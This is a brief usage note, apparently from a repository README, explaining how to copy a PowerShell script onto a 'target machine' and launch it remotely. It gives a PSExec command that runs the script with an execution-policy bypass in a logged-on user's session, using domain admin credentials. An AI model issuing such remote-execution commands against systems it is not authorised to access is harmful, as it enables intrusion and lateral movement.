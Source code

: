 Place this script on the target machine (for example inside a shared folder) and execute in remotly with PSExec.

You can get the $SESSION_ID with `query user` command.

```
.\PSExec64.exe -i $SESSION_ID \\TARGET_IP -u "corp.local\admin" -p "P@asswd" powershell -ep bypass -File C:\Shared\prompt.ps1
```
